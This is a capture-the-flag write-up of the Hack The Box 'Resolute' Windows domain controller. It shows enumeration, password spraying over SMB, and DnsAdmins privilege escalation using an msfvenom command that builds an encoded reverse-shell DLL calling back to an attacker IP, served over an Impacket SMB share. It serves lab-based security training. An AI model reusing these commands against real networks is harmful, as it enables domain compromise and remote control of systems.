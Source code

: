 ```yaml
---
permalink: /posts/HTB/Resolute
title: "HTB Resolute Write-up"
header-img: "/assets/images/HTB/Resolute/InfoCard.jpg"
header:
  teaser: "/assets/images/HTB/Resolute/InfoCard.jpg"
description: "Hackthebox's Resolute is a medium-rated Windows machine acting as the Domain Controller and DNS server for Megabank"
categories: 
  - CTF
date: 2020-05-30 18:30
tags: HTB Windows DNS
---
```

# Hackthebox - Resolute - 10.10.10.169

## Summary
Today, [Hackthebox](https://www.hackthebox.eu) retired Resolute,  a medium-rated Windows machine acting as the Domain Controller and DNS server for Megabank.
Here's my write-up.

![InfoCard](/assets/images/HTB/Resolute/InfoCard.jpg)

## Enumeration

Starting enumeration off with an initial nmap scan.
```
nmap -sV -sT -sC -p- -o nmapinitial -T4 10.10.10.169
```
While nmap returned a lot of opened ports , it doesn't look like there's anything I can use for now.

![nmapinitial](/assets/images/HTB/Resolute/nmapinitial.jpg)

I've decided to also run enum4linux
```
enum4linux -o -U -G -S 10.10.10.169 > enum4linuxout.txt
```

Enum4linux does find something useful. It looks like the administrator added one of the user's initial password in the user's description.

![enum4linux](/assets/images/HTB/Resolute/enum4linux.jpg)

## Initial foothold and user flag

Trying to connect to the target using Evil-WinRM and marko's credentials fails, meaning that the user might have had their password changed in the meantime.

Since the admin might have been lazy and could have used the same password with other accounts, it is worth trying to connect to the target using the other user names combined with the _Welcome123!_ password.

I've created a list of all the user names found by enum4linux in order to use it with Metasploit's SMB Login Check Scanner

![users](/assets/images/HTB/Resolute/users.jpg)

I fire up msfconsole, configure necessary options and run it. It looks like the melanie user account works with the password found via enum4linux.

![smblogincheck](/assets/images/HTB/Resolute/smblogincheck.jpg)

I'm able to successfully connect using melanie's credentials and obtain the user flag.

![userflag](/assets/images/HTB/Resolute/userflag.jpg)

## Privilege escalation

After some more enumeration of the directories and files on the system, I find the C:\SPTranscripts directory.

![dirforce](/assets/images/HTB/Resolute/dirforce.jpg)

The PSTranscripts directory contains the PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt file in which I found ryan's password.

![ryanspass](/assets/images/HTB/Resolute/ryanspass.jpg)

Connecting with ryan's credentials works and, even though the ryan user is not a member of the Administrators group, it is a member of the [DnsAdmins](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise) group

![ryan](/assets/images/HTB/Resolute/ryan.jpg)

## Privilege escalation to system and getting the root flag

I create the payload that will spawn a reverse shell using msfvenom with the following parameters: 
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.7 LPORT=4455 --platform windows -a x64 -e x64/xor -i 12 -f dll -o dns.dll
```

![msfvenom](/assets/images/HTB/Resolute/msfvenom.jpg)

I then set up an SMB share using Impacket's smbserver.py.
```
python /root/Scripts/Impacket/impacket-0.9.20/examples/smbserver.py DNSPLD ./
```

I configure metasploit and start a the listener to catch the connection from the target once the payload is executed.

![msfclistener](/assets/images/HTB/Resolute/msfclistener.jpg)

And I proceed to load the payload into the target's DNS configuration and then restart the DNS service.

![loadpayload](/assets/images/HTB/Resolute/loadpayload.jpg)

In a few seconds I get a meterpreter shell as the system user.

![meterpretersession](/assets/images/HTB/Resolute/meterpretersession.jpg)

Then get the root flag.

![rootflag](/assets/images/HTB/Resolute/rootflag.jpg)

And that's pretty much it.
